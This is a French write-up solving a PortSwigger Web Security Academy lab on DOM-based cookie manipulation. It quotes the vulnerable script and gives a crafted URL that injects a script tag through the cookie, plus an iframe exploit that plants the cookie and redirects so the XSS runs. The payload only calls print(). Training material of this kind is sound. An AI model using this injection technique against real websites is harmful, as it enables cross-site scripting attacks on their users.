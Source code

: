 # Lab

https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

## Solution

Dans la page de détails d'un produit, il y a ce script :

```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

Ensuite, cette valeur est reprise pour afficher un lien qui mène vers le dernier article consulté :

```html
<a href='https://0aec00bd047fa0f981dcf2770086006a.web-security-academy.net/product?productId=1'>Last viewed product</a>
```

On peut injecter via l'URL un cookie qui contient de l'HTML :

`https://0aec00bd047fa0f981dcf2770086006a.web-security-academy.net/product?productId=1&'><script>print()</script>`

Ainsi, si on viste ce lien et qu'on se rend sur une autre page, on a un pop-up d'impression qui s'affiche.

On a plus qu'a faire un exploit qui va générer le cookie contenant la XSS et qui redirige vers une autre page pour executer le payload :

```html
<iframe src="https://0aec00bd047fa0f981dcf2770086006a.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E" onload="this.src='https://0aec00bd047fa0f981dcf2770086006a.web-security-academy.net/'"></iframe>
```